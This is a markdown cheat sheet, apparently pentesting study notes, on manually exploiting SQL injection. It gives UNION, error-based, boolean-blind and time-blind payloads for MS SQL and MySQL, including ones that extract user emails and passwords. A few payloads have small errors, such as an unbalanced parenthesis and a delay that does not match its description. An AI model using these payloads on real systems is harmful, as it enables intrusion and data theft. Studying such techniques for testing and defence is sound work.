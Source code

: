 # Manual techniques and best practices for exploiting SQL injections

* A good recommendation to use when exploiting a SQL injection vulnerability is using comments. Comments out any other SQL code that follows the injection point:
  * `#`: the hash symbol.

    ```sql
    SELECT name, description, price FROM products WHERE status='new' or '1'='1' #' AND taxable = true;
    ```

  * `-- `: two hyphens followed by a space.

    ```sql
    SELECT name, description, price FROM products WHERE status='new' or '1'='1' -- ' AND taxable = true;
    ```

    Since a comment itself is composed of two hyphens and a space, it's good practice to add a third hyphen at the end (i.e. `-- -`) because most browsers automatically remove trailing spaces in the URL:

    ```url
    products.php?status=new' or '1'='1'; -- -
    ```

## In-band SQL injections

* Due to the fact that for In-band SQL injections the result of the exploitation is included directly in the response page from the vulnerable web application, these types of SQL injection are usually the ones that require the least effort to exploit.

### UNION-based SQL injections

* When exploiting UNION-based SQL injections, the number of fields in the second `SELECT` statement should match the **number of fields** in the first (and original) statement. Consider the SQL payload `new' UNION SELECT username, email, password FROM users; -- -` for the following example:

  ```sql
  SELECT name, description, brand FROM products WHERE status='new' UNION SELECT username, email, password FROM users; -- -' AND taxable = true;
  ```

  * To achieve this without knowing the number of fields that are originally selected, start by selecting a single field and then increase the number of fields until a valid query is built:

    ```sql
    UNION SELECT NULL; -- -
    ```

    ```sql
    UNION SELECT NULL, NULL; -- -
    ```

    ```sql
    UNION SELECT NULL, NULL, NULL; -- -
    ```

* Depending on the DBMS, the **field types** of the second `SELECT` statement in a `UNION` context must match the ones in the first statement. Keep in mind that some fields selected in the SQL query may not be included in the output page, but they are still part of the query.

  * To achieve this, start by replacing `NULL` fields with representative data types:

    ```sql
    UNION SELECT 'a', NULL, NULL; -- -
    ```

    ```sql
    UNION SELECT 'a', 1, NULL; -- -
    ```

    ```sql
    UNION SELECT 'a', 1, 'a'; -- -
    ```

* Use the `UNION ALL` operator to avoid the effect of an eventual `DISTINCT` clause in the original web application query.
* Finally, to successfully perform the injection, it's necessary to find a way **to know or infer the database structure** in terms of tables and columns names.

### Error-based SQL injections

* The goal here is to force the DBMS to display an error including sensitive information. For instance, a simple SQL payload like `new' OR user_name()=1;-- -`, which attempts to convert a string value (i.e. the current database user) to integer, could do the job:

  ```sql
  SELECT name, description, brand FROM products WHERE status='new' OR user_name()=1; -- - AND taxable = true;
  ```

* Let's see more examples of some payloads for specific DBMSs that can allow to retrieve database versions from the errors themselves.

#### Using CAST in MS SQL server

* Injection payload:

  ```sql
  new' or 1 in (SELECT TOP 1 CAST (@@version as varchar(4096)); -- -
  ```

  Potential error obtained on the output page:

  ```
  [Microsoft][SQL Server Native Client 10.0][SQL Server] Conversion failed when converting the varchar value 'Microsoft SQL Server 2008 R2 (SP2) - 10.50.4000.0 (x64) Jun 28 2020 08:36:30 Copyright (c) Microsoft Corporation Express Edition (64-bit) on Windows NT 6.1 (Build 7601: Service Pack 1) (Hypervisor)' to data type int.
  ```

* Injection payload to get the `email` field value of the first record in the `users` table for the `ecommercedb` database:

  ```sql
  new' or 1 in (SELECT TOP 1 CAST (email as varchar(4096)) FROM ecommercedb..users; -- -
  ```

#### Using concat() and GROUP BY in MySQL

* Injection payload:

  ```sql
  new' or 1 in (SELECT count(*), concat(version(),floor(rand(0)*2)) as x FROM information_schema.tables GROUP BY x); -- -
  ```

  Potential error obtained on the output page:

  ```
  ERROR 1062 (23000): Duplicate entry '5.5.43-0+deb7u11' for key 'group_key'
  ```

* Injection payload to get all the tables from the `ecommercedb` database:

  ```sql
  new' AND (SELECT 1 FROM (SELECT count(*), concat((SELECT distinct(table_name) FROM information_schema.tables WHERE table_schema="ecommercedb" LIMIT 1,1)," - ", FLOOR(RAND(0)*2)) B FROM information_schema.tables GROUP BY B) C) #
  ```

* Injection payload to get the `email` field value of the first record in the `users` table for the `ecommercedb` database:

  ```sql
  cars' AND (SELECT 1 FROM (SELECT count(*), concat((SELECT email FROM ecommercedb.users limit 0,1)," - ", FLOOR(RAND(0)*2)) B FROM information_schema.tables GROUP BY B) C) #
  ```

## Inference/Blind SQL injections

* A major difference between In-band or Error-based vs Blind SQL injections is the number of requests required to be performed for the latter (and the time consumed accordingly).
* That's the reason why it's hard to perform manual exploitation of Blind SQL injection vulnerabilities. Instead, pentesters tend to build their own Blind SQLi exploitation scripts or use an automated tool like [sqlmap][1].

### Boolean-based Blind SQL injections

* The objective here is to ask the database `TRUE` or `FALSE` questions and determine the answer based on the application response (e.g. it changes the text on the web page if the condition is `TRUE` vs if it's `FALSE`).
* For this purpose, the type of questions to be asked can be as follows:
  * Does the first record in the `username` field of the `Users` table have a length of 3 characters?
    * If not, does it have a length of 4? of 5? of 6?
  * Is the first letter of that username an "a"?
    * If true, continue with the second letter of the username.
    * If false, ask for the next letter of the alphabet until true.
* Let's see as an example some payloads for specific DBMSs that are useful to perform this type of queries.

#### Using length() and ascii() in MySQL

* Let's try to know the length of a field:

  ```sql
  ' or (length((SELECT password FROM users WHERE id=1)) > 5 )
  ```

  As a reminder:

  * `length()` returns the length of the string.

* Once the length of a field is known, move on to guessing the first letter:

  ```sql
  ' or (ascii(substring((SELECT password FROM users WHERE id=1),1,1)) > 97 )
  ```

  As a reminder:

  * `ascii()` returns the ASCII value of the character.

#### Using user() and substring() in MySQL

* Let's try to find out the first letter of current database username:

  ```sql
  ' or substr(user(), 1, 1) = 'a
  ```

  Until the query is not `TRUE`, keep trying letters:

  ```sql
  ' or substr(user(), 1, 1) = 'b
  ```

  As a reminder:
  
  * `user()` returns the name of the current user using the database.
  * `substring()` returns a substring of the given argument. It takes three parameters: the input string, the position of the substring and its length.

* Once the first letter is found, move on to the second one:

  ```sql
  ' or substr(user(), 2, 1) = 'a
  ```

### Time-based Blind SQL injections

* In this case, time is used to infer a `TRUE` condition from a `FALSE` condition.
* Let's look directly at some practical payloads for specific DBMSs.

#### Using waitfor delay in MS SQL

* If `TRUE`, the DBMS will delay for 6 seconds:

  ```sql
  if (SELECT user) = 'ecommerce' waitfor delay '0:0:5
  ```

#### Using sleep() and benchmarck() in MySQL

* If `TRUE`, the DBMS will delay for 10 seconds:

  ```sql
  select if((SELECT database()="ecommercedb"), sleep(10), null); -- -
  ```

  ```sql
  select if((SELECT version() like "5%"), sleep(10), null); -- -
  ```

* It will perform `MD5(1)` function 10000000 times if the `if` clause yields `TRUE`:

  ```sql
  if exists (SELECT * FROM users WHERE username = 'johndoe') BENCHMARK(10000000, MD5(1))
  ```

[1]: https://sqlmap.org/
